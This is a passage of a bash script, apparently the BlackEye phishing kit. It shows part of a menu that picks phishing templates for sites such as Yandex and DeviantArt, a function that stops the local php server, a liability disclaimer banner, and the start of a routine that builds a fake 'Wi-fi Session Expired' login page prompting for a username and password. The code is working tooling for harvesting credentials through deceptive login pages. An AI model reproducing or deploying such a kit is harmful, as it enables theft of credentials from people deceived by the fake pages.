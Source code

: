 elif [[ $option == 31 ]]; then
server="yandex"
start

elif [[ $option == 32 ]]; then
server="devianart"
start

elif [[ $option == 33 ]]; then
server="create"
createpage
start

else
printf "\e[1;93m [!] Invalid option!\e[0m\n"
menu
fi
}

stop() {


checkphp=$(ps aux | grep -o "php" | head -n1)

if [[ $checkphp == *'php'* ]]; then
pkill -f -2 php > /dev/null 2>&1
killall -2 php > /dev/null 2>&1
fi


}

banner() {

printf "\n"
printf "\n"
printf "     \e[101m\e[1;77m:: Disclaimer: Developers assume no liability and are not    ::\e[0m\n"
printf "     \e[101m\e[1;77m:: responsible for any misuse or damage caused by BlackEye.  ::\e[0m\n"
printf "     \e[101m\e[1;77m:: Only use for educational purporses!!                      ::\e[0m\n"
printf "\n"
printf "     \e[101m\e[1;77m:: Attacking targets without mutual consent is illegal!      ::\e[0m\n"
printf "\n"
}

createpage() {
default_cap1="Wi-fi Session Expired"
default_cap2="Please login again."
default_user_text="Username:"
default_pass_text="Password:"
default_sub_text="Log-In"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 1 (Default: Wi-fi Session Expired): \e[0m' cap1
cap1="${cap1:-${default_cap1}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 2 (Default: Please login again.): \e[0m' cap2
cap2="${cap2:-${default_cap2}}"

